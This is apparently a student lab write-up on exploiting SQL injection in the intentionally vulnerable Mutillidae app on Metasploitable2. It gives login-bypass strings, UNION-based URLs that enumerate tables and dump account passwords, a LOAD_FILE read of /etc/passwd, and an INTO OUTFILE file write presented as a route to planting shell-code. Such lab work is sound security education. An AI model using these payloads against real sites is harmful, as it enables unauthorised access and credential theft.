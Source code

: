 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![output1](https://github.com/kiruthika512/sqlinjection/assets/135616605/9a80c808-ce61-4c23-b1b9-a2dd0049695e)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 

![output2](https://github.com/kiruthika512/sqlinjection/assets/135616605/c75ddb65-15a4-401b-8ea6-922ba2548af0)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![output3](https://github.com/kiruthika512/sqlinjection/assets/135616605/5be04959-43bf-46d4-9f12-2253b98e4e91)

Click on the menu Login/Register and register for an account
![output4](https://github.com/kiruthika512/sqlinjection/assets/135616605/bf523d2e-2359-4f37-8574-0cf74c6f927a)
Click on the link “Please register here”
![output5](https://github.com/kiruthika512/sqlinjection/assets/135616605/31d2ab96-f5cf-4232-be7b-7e57f5112c61)

Click on “Create Account” to display the following page:

![output6](https://github.com/kiruthika512/sqlinjection/assets/135616605/6cbdbcbf-eed1-421c-9806-378510f8c921)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![output7](https://github.com/kiruthika512/sqlinjection/assets/135616605/6134f940-c8a5-4874-b69e-a977c7487e34)

Click “Login”. The logged in page will show as below:
![output8](https://github.com/kiruthika512/sqlinjection/assets/135616605/e5e02b2e-3c98-4454-a89b-a815ebfc3420)
##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![output9](https://github.com/kiruthika512/sqlinjection/assets/135616605/c1071c3d-3b16-495c-91ae-67fee3ecb7bb)

Click the login button and you will see it enter into the administrator page.
![output10](https://github.com/kiruthika512/sqlinjection/assets/135616605/171c0726-012f-4904-ab2c-4d182ecaedb8)
Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![output11](https://github.com/kiruthika512/sqlinjection/assets/135616605/62adfed0-2214-4948-8d5d-5c4320c919f1)
![output12](https://github.com/kiruthika512/sqlinjection/assets/135616605/cfc2b305-8f25-4d3e-b49e-9948485f2e01)
![output13](https://github.com/kiruthika512/sqlinjection/assets/135616605/6228c496-1330-4f02-8870-e48c95d53533)
![output14](https://github.com/kiruthika512/sqlinjection/assets/135616605/a7487a6b-81c3-499a-bb13-46398327b6fb)
![output15](https://github.com/kiruthika512/sqlinjection/assets/135616605/dceff6fe-2007-4cf8-bb12-d095556b19e9)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned. 
![output16](https://github.com/kiruthika512/sqlinjection/assets/135616605/8b9181e7-6318-4d41-8758-ee902237d18f)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![output17](https://github.com/kiruthika512/sqlinjection/assets/135616605/03d5eee8-0c03-4edf-ab47-bee4809d69d6)

After adding the order by 6 into the existing url , the following error statement will be obtained:

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![output18](https://github.com/kiruthika512/sqlinjection/assets/135616605/cae5f4f9-3e01-464a-8698-6ef6680e3f39)

As it is having 5 columns the query worked fine and it provides the correct result
![output19](https://github.com/kiruthika512/sqlinjection/assets/135616605/67719fd3-6919-40fc-b6b7-a66faae3bba5)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![output20](https://github.com/kiruthika512/sqlinjection/assets/135616605/6962014f-273d-4958-b9a2-d76c946d772c)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![output21](https://github.com/kiruthika512/sqlinjection/assets/135616605/7556822b-169a-45d8-ba23-93ae1003dfd0)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![output22](https://github.com/kiruthika512/sqlinjection/assets/135616605/93dd0569-3487-4320-85b1-b887d16b2124)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![Uploading output23.png…]()
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![Uploading output24.png…]()
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![output25](https://github.com/kiruthika512/sqlinjection/assets/135616605/a2d805dc-429b-4911-a4ab-85a1b463e964)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![output26](https://github.com/kiruthika512/sqlinjection/assets/135616605/54162c84-6b4c-4e5a-a9e8-d1235e0e039e)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![output27](https://github.com/kiruthika512/sqlinjection/assets/135616605/6e969aae-3b6b-4750-8e98-0de0e2f26cbf)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
